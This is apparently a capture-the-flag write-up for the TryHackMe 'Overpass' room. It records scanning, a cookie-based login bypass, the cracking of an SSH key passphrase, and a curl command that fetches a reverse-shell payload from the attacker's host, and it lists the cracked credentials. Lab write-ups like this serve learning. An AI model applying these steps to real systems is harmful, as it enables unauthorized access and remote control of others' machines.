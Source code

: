 # Writeup for THM room [Overpass](https://tryhackme.com/room/overpass)

```fish
set -gx IP 10.10.33.60
```

## Init nmap scan

```fish
sudo nmap -sN -sC -sV -oN nmap/init $IP
```

> Ports: 22, 80

## Gobuster

```fish
gobuster dir -u $IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## login Page

* found interesting codes snippet on `/admin` > `login.js`

```javascript
const response = await postData("/api/login", creds)
const statusOrCookie = await response.text()
if (statusOrCookie === "Incorrect credentials") {
    loginStatus.textContent = "Incorrect Credentials"
    passwordBox.value=""
} else {
    Cookies.set("SessionToken",statusOrCookie)
    window.location = "/admin"
}
```

> set cookie manually `Cookies.set("SessionToken","")` and reload page


## Crack ssh keyphrase

* Downloaded RSA Key found on `/admin`
* transformed to john format `ssh2john id_rsa > ssh2john.txt`
* cracked with john `john ssh2john.txt`

> Found keyphrase: `james13`

## Connect via ssh

```fish
ssh -i ./id_rsa james@$IP
# keypass: james13
```

```go
URL=http://10.18.94.63:8000/rev-shell.go
LFILE=shell.go
curl $URL -o $LFILE
```

Password stored in overpass:

* System: `saydrawnlyingpicture`
